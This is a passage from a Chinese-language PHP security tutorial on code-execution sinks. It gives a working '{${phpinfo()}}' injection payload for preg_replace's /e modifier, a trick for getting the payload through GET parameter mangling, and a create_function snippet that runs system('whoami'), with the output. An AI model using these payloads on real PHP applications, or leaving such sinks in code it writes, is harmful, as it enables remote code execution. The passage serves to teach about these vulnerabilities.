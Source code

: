 上面这段我们需要注意的就是\1,\1在正则表达式是反向引用的意思，简而言之就是指定一个子匹配项。

针对上面案例，我们来个payload：

```php
payload=/?.*={${phpinfo()}}
所以语句就成了这样
preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

那么我们直接把这段代码放到页面

```php
<?php
    preg_replace('/(.*)/ei', 'strtolower("\\1")', '{${phpinfo()}}');
?>
```

访问页面，结果如下：

![](/assets/wgpsec/images/20200818234802.png)

我们看到成功执行了代码。

但是这里我是直接将这段代码写到了文件里，那么如果我们是通过GET传参得到参数，这里针对上面那个案例就需要注意一点，在通过GET传参时，`.*`会被替换为`_*`导致我们要的正则被替换了，达不到我们的效果，所以这里可用使用一些其他的正则表达式来达到目的，比如通过GET传参时我们的参数可以传入`\S*`从而达到同样目的。所以以后再遇到这个函数的时候，要留个心眼了。不过，这里要补充一点，就是`preg_replace()`函数在PHP 7 后便不再支持，使用`preg_replace_callback()`进行替换了，取消了不安全的`\e`模式。

### create_function()

 `create_function()`用来创建一个匿名函数

```php
create_function( string $args, string $code) : string
```

#### 参数

- string $args	声明的函数变量部分
- string $code	要执行的代码	

#### 返回值

返回唯一的函数名称作为字符串或者返回FALSE错误

`create_function()`函数在内部执行`eval()`函数，所以我们就可以利用这一点，来执行代码。当然正因为存在安全问题，所以在PHP 7.2 之后的版本中已经废弃了`create_function()`函数，使用匿名函数来代替。所以这里为了演示这个函数，我采用的是PHP 5 的环境。那么这个函数到底怎么用呢？

那么来看我写的一个简单的案例

```php
<?php
    $onefunc = create_function('$a','return system($a);');
	$onefunc(whoami);
?>
    
执行结果——>desktop-m61j5j6\admin
```

